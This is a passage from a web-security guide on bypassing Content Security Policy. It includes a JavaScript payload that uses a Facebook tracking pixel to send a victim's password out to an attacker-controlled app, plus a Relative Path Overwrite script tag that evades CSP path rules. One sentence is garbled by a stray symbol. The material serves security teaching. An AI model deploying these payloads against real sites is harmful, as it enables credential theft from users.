 Then, on the victim side, you execute the following code to initialize the Facebook tracking pixel to point to the attacker's Facebook developer account app-id and issue a custom event like this:

```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
    data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```

As for the other seven third-party domains specified in the previous table, there are many other ways you can abuse them. Refer to the previously [blog post](https://sensepost.com/blog/2023/dress-codethe-talk/#bypasses) for additional explanations about other third-party abuses.

### Bypass via RPO (Relative Path Overwrite) <a href="#bypass-via-rpo-relative-path-overwrite" id="bypass-via-rpo-relative-path-overwrite"></a>

In addition to the aforementioned redirection to bypass path restrictions, there is another technique called Relative Path Overwrite (RPO) that can be used on some servers.

For example, if CSP allows the path `https://example.com/scripts/react/`, it can be bypassed as follows:

```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```

The browser will ultimately load `https://example.com/scripts/angular/angular.js`.

This works because for the browser, you are loading a file named `..%2fangular%2fangular.js` located under `https://example.com/scripts/react/`, which is compliant with CSP.

∑, they will decode it, effectively requesting `https://example.com/scripts/react/../angular/angular.js`, which is equivalent to `https://example.com/scripts/angular/angular.js`.

By **exploiting this inconsistency in URL interpretation between the browser and the server, the path rules can be bypassed**.

The solution is to not treat `%2f` as `/` on the server-side, ensuring consistent interpretation between the browser and the server to avoid this issue.

Online Example:[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)

### Iframes JS execution

{% content-ref url="../xss-cross-site-scripting/iframes-in-xss-and-csp.md" %}
[iframes-in-xss-and-csp.md](../xss-cross-site-scripting/iframes-in-xss-and-csp.md)
{% endcontent-ref %}

### missing **base-uri**

If the **base-uri** directive is missing you can abuse it to perform a [**dangling markup injection**](../dangling-markup-html-scriptless-injection/).
